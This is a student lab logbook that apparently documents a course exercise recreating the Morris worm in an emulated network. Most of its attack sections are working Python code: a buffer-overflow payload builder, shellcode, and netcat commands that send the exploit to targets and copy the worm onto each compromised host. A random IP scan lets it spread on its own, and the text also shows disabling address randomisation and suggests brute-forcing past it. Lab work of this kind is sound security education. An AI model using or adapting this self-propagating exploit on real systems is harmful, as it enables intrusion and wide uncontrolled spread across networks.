# Logbook for Lab 04 - Morris Worm Attack

## Purpose

In this lab, we studied and replicated aspects of the Morris worm attack, an important event in cybersecurity, to better understand how worms can propagate through networks and exploit system vulnerabilities. We explored techniques to identify and infect new targets, maintain control over infected machines, and prevent self-infection to avoid overwhelming system resources.

## Task 1 - Get Familiar with the Lab Setup

In this task, we focused on analyzing the provided worm code to understand its structure and the core mechanisms enabling it to spread across a network. This initial code included essential functionalities that allowed the worm to replicate itself to other systems once it had successfully compromised a target. We used the Nano Internet, in `/internet-nano` folder, that has three autonomous systems (AS), which peer with one another at a single Internet exchange. Each AS has one internal network, and its network prefix is `10.X.0.0/24`, where X is 151, 152, and 153. Each network has five hosts, with the host IDs ranging from 71 to 75. We saw the generated map in `http://localhost:8080/map.html`.

After that, we accessed a terminal on one of the host containers and executed the command 

```sh
$ ping 1.2.3.4
```

To check the connectivity to the target. We then used the visualization tool by entering `icmp and dst 1.2.3.4` in the filter box of the Map. This allowed us to see which hosts were infected by the worm, as the machine running the ping command would flash on the map.



By performing this action after each infection, we could track the spread of the worm throughout the network.

## Task 2 - Attack the First Target

In Task 2, we explored the implementation of the worm's functionality by analyzing and modifying its code to enable its propagation across the network.

### Task 2.A - The Skeleton Code

In this subtask, we reviewed the provided skeleton code for the worm in `worm.py`, identifying its main components such as the initialization, infection process, and communication methods.

### Task 2.B - Creating the badfile

In this subtask, we created a badfile, a malicious payload used by the worm to exploit the target machine's vulnerabilities. The badfile is crafted using buffer overflow attack, giving the worm access to the target system. Using the lab's provided `createBadFile()` method, we modified its content:

```python
import sys
import os
import time
import subprocess
from random import randint

# Create the badfile (the malicious payload)
def createBadfile():
   content = bytearray(0x90 for i in range(500))

   # Put the shellcode at the end
   shellcode_length = len(shellcode)
   content[500-len(shellcode):] = shellcode

   ret = 0xffffd588 + 180
   offset = 0x74
   content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')

   # Save the binary code to file
   with open('badfile', 'wb') as f:
      f.write(content)
```

To see the correct parameters, we needed to search for pointers using the terminal and one IP target:




### Task 2.C - The Shellcode

The next part of the task involved developing the shellcode, which is the active code the worm uses to execute commands on the compromised machine. The shellcode is included within the badfile and is designed to run on the target system once a vulnerability is triggered. In our case, we implemented a shellcode to open a reverse shell. The code crafted was the following:

```python
# Shellcode to run any command you want
shellcode= (
   "\xeb\x2c\x59\x31\xc0\x88\x41\x19\x88\x41\x1c\x31\xd2\xb2\xd0\x88"
   "\x04\x11\x8d\x59\x10\x89\x19\x8d\x41\x1a\x89\x41\x04\x8d\x41\x1d"
   "\x89\x41\x08\x31\xc0\x89\x41\x0c\x31\xd2\xb0\x0b\xcd\x80\xe8\xcf"
   "\xff\xff\xff"
   "AAAABBBBCCCCDDDD" 
   "/bin/bash*"
   "-c*"
   " echo '(^_^) Shellcode is running (^_^)';                   "
   "                                                            "
   "                                                           *"
   "123456789012345678901234567890123456789012345678901234567890"
).encode('latin-1')
```

And then we ran the file using the following commands:

```sh
$ chmod +x worm.py
$ ./worm.py
```

It generated the badfile, and then send its content to the target server:



The smiley face indicated that the attack was successful.
The buffer overflow, however, is only successful if we previously ran the following command on the host machine:

```sh
$ sudo /sbin/sysctl -w kernel.randomize_va_space=0
```
This command disables the kernel randomization of the adresses of the **Frame Pointer (ebp)** and **the Buffer's adress inside the bof()**. Making them static in every execution and making the method we implemented in the **worm.py** work. If this method was enabled, this values would change in every execution and it would be very unlikely that the program would execute the badfile. It would have to be lucky and the kernel randomly generate the static values we inputed. However, to mitigate this, we could, in each execution of the **worm.py**, run the transfer a great number of times. This would make the kernel randomize it's space many times and increase the likelyhood that the script encontered the same generated values we inputed. 

## Task 3 - Self Duplication

In Task 3, we worked on creating the core of the worm script to enable it to propagate across the network by compromising new machines. The worm's functionality required combining several components, including the badfile payload, the shellcode, and the attack mechanisms that allows it to compromise and spread.

We implemented the Approach 2, using the following steps:

- `Establish a Connection to Target Machines`: The worm connects to each target machine, where it delivers the badfile containing the exploit and shellcode;
- `Execute Commands on Compromised Machines`: Once the worm gains control of a machine, it uses the shellcode to establish a reverse shell, allowing the worm to execute further commands on the compromised machine;
- `Deploy the Worm on New Hosts`: After compromising a machine, the worm automatically copies itself to the new host and begins the infection process again;

The content of new `worm.py` was:

```python
#!/bin/env python3
import sys
import os
import time
import subprocess
from random import randint

shellcode= (
   "\xeb\x2c\x59\x31\xc0\x88\x41\x19\x88\x41\x1c\x31\xd2\xb2\xd0\x88"
   "\x04\x11\x8d\x59\x10\x89\x19\x8d\x41\x1a\x89\x41\x04\x8d\x41\x1d"
   "\x89\x41\x08\x31\xc0\x89\x41\x0c\x31\xd2\xb0\x0b\xcd\x80\xe8\xcf"
   "\xff\xff\xff"
   "AAAABBBBCCCCDDDD" 
   "/bin/bash*"
   "-c*"
   " echo '(^_^) Shellcode is running (^_^)';                   "
   " nc -w5 10.151.0.1 8081 > worm.py; pwd;                     " # To infect the next target
   "                                                           *"
   "123456789012345678901234567890123456789012345678901234567890"
).encode('latin-1')


# Create the badfile (the malicious payload)
def createBadfile():
   content = bytearray(0x90 for i in range(500))

   shellcode_length = len(shellcode)
   content[500-len(shellcode):] = shellcode
   ret = 0xffffd588 + 180
   offset = 0x74

   content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')

   # Save the binary code to file
   with open('badfile', 'wb') as f:
      f.write(content)

def getNextTarget():
   return '10.151.0.71'

############################################################### 

print("The worm has arrived on this host ^_^", flush=True)

# This is for visualization. It sends an ICMP echo message to 
# a non-existing machine every 2 seconds.
subprocess.Popen(["ping -q -i2 1.2.3.4"], shell=True)
subprocess.Popen(["nc -lnv 8081 < worm.py"], shell=True)

# Create the badfile 
createBadfile()

# Launch the attack on other servers
while True:
    targetIP = getNextTarget()

    # Send the malicious payload to the target host
    print(f"**********************************", flush=True)
    print(f">>>>> Attacking {targetIP} <<<<<", flush=True)
    print(f"**********************************", flush=True)
    subprocess.run([f"cat badfile | nc -w3 {targetIP} 9090"], shell=True)

    # Give the shellcode some time to run on the target host
    time.sleep(1)

    # Sleep for 10 seconds before attacking another host
    time.sleep(10) 

    # Remove this line if you want to continue attacking others
    exit(0)
```

This way, we could implement the `self-duplicated feature` across the network. As expected, the target machine was infected:



To check if the infected file was copied from one machine to another, we accessed its terminal and searched for the file after running the script.



## Task 4 - Propagation

In this task, the aim is for the virus to be able to spread automatically from one infected machine to another.
To do this, changes had to be made to the `worm.py` file, since the target machine's IP was hardcoded. There are several ways to determine the IP of the new target mahcines, but to make this task simpler we used `random IP address generation`.

It is also important to check whether the target is alive or not. Therefore, the strategy used is to send and echo request to the target using the `ping` command and check whether the target has sent the reply.

Below is the code used to propagate the virus:

```py
#!/bin/env python3
import sys
import os
import time
import subprocess
from random import randint

shellcode= (
   "\xeb\x2c\x59\x31\xc0\x88\x41\x19\x88\x41\x1c\x31\xd2\xb2\xd0\x88"
   "\x04\x11\x8d\x59\x10\x89\x19\x8d\x41\x1a\x89\x41\x04\x8d\x41\x1d"
   "\x89\x41\x08\x31\xc0\x89\x41\x0c\x31\xd2\xb0\x0b\xcd\x80\xe8\xcf"
   "\xff\xff\xff"
   "AAAABBBBCCCCDDDD" 
   "/bin/bash*"
   "-c*"
   " echo '(^_^) Shellcode is running (^_^)'; sleep 1;          "
   " nc -lnv 8081 > worm.py; pwd; chmod +x worm.py;             "
   " ./worm.py;                                                *"
   "123456789012345678901234567890123456789012345678901234567890"
).encode('latin-1')

# Create the badfile (the malicious payload)
def createBadfile():
   content = bytearray(0x90 for i in range(500))

   # Put the shellcode at the end
   shellcode_length = len(shellcode)
   content[500-len(shellcode):] = shellcode

   ret = 0xffffd588 + 180 # Adjust this value as needed
   offset = 0x74
   content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')

   # Save the binary code to file
   with open('badfile', 'wb') as f:
      f.write(content)

# Find the next victim (return an IP address).
# Check to make sure that the target is alive. 
def getNextTarget():
    ipaddr = ''
    while True:
        x = randint(151, 155)
        y = randint(70, 80)
        
        ipaddr = '10.' + str(x) + '.0.' + str(y)
        
        try:
            output = subprocess.check_output(f"ping -q -c1 -W1 {ipaddr}", shell=True)
            result = output.find(b'1 received')
            
            if result == -1:
                print(f"{ipaddr} is not alive", flush=True)
                continue
            else:
                print(f"*** {ipaddr} is alive, launch the attack", flush=True)
                return ipaddr
        except subprocess.CalledProcessError:
            print(f"{ipaddr} is not alive (ping failed)", flush=True)
            continue

############################################################### 

print("The worm has arrived on this host ^_^", flush=True)

# This is for visualization. It sends an ICMP echo message to 
# a non-existing machine every 2 seconds.
subprocess.Popen(["ping -q -i2 1.2.3.4"], shell=True)

# Create the badfile 
createBadfile()

# Launch the attack on other servers
while True:
    targetIP = getNextTarget()

    # Send the malicious payload to the target host
    print(f"**********************************", flush=True)
    print(f">>>>> Attacking {targetIP} <<<<<", flush=True)
    print(f"**********************************", flush=True)
    
    subprocess.run([f"cat badfile | nc -w3 {targetIP} 9090"], shell=True)

    # Give the shellcode some time to run on the target host
    time.sleep(3)

    subprocess.Popen([f"cat worm.py | nc -w5 {targetIP} 8081"], shell=True)

    # Sleep for 10 seconds before attacking another host
    time.sleep(10) 
```

There are also some prints confirming the propagation through the various nodes until it reaches 100 percentage CPU usage and the terminal.









## Task 5 - Preventing Self Infection

In this task, the aim was to correct the code used previously in order to check whether the target machine had been infected with the virus before. If this check doesn't exist, it causes a Denial-of-Service (`DoS`) attack, since a new instance of the virus is created and executed. 

The corrected version is shown below, as well as the difference in terms of CPU usage compared to the previous task.





## Task 6 - Releasing the Worm on the Mini Internet

This task consists of executing the same attack as in the previous task but in a container with more nodes, `internet-mini`, in order to simulate the Internet more realistically.
To carry out this attack we only one change had to be made to the code to extend the random generation of IP addresses.
The following video shows the result of this attack and its propagation.

<video src="./img/Lab4/Task6.mp4" width="320" height="240" controls></video>

## Conclusion

In this lab, we learned the basic stages of how the Morris Worm operated. It exploited a computer through a **buffer overflow** to achieve **remote code execution**, then used **self-replication** by setting up servers and clients with netcat, and finally achieved **propagation** by executing the same code on the target machine. As demonstrated, these types of attacks are both destructive and effective, with the potential to cause internet outages and impact millions of machines due to their exponential spread.

A recent example of this was the **WannaCry** ransomware, which exploited the newly discovered **EternalBlue** vulnerability in Windows machines. This exploit allowed remote code execution on any vulnerable Windows system, enabling the spread of a virus that encrypted files and demanded payment for decryption. This attack caused millions in damages and sign.
